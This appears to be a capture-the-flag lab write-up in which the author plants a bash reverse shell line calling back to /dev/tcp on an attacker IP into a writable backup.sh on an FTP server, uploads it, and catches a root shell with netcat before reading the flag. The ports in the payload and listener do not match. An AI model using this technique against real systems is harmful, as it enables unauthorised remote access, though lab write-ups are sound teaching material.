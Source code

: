 ```bash
root@ip-10-10-34-225:~# nano backup.sh 
GNU nano 2.9.3                      backup.sh                       Modified  

#!/bin/bash

bash -i >& /dev/tcp/10.10.34.255/7777 0>&1
# Created by ElfMcEager to backup all of Santa's goodies!


# Create backups to include date DD/MM/YYYY
#filename="backup_`date +%d`_`date +%m`_`date +%Y`.tar.gz";

# Backup FTP folder and store in elfmceager's home directory
#tar -zcvf /home/elfmceager/$filename /opt/ftp

# TO-DO: Automate transfer of backups to backup server
```

>>BEFORE UPLOADING THE PAYLOAD CREATE A NETCAT LISTENING SESSION.WE NEED TO REUPLOAD THAT PAYLOAD SCRIPT WE CREATED TO THE FTP SERVER.USE "put" FILE NAME TO UPLOAD IT.

```bash
ftp> put backup.sh
local: backup.sh remote: backup.sh
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
388 bytes sent in 0.00 secs (10.0007 MB/s)
```

>>AFTER SOMETIME THERE WILL BE A REVERSE SHELL IN YOUR TERMINAL WERE WE CREATED OUR NETCAT SESSION.

```bash
root@ip-10-10-100-228:~# nc -lvnp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 10.10.52.218 38862 received!
bash: cannot set terminal process group (1271): Inappropriate ioctl for device
bash: no job control in this shell
root@tbfc-ftp-01:~# ls
ls
flag.txt
root@tbfc-ftp-01:~# cat flag.txt
cat flag.txt
THM{even_you_can_be_santa}

```

----

# ANSWER THE FOLLOWING :
----
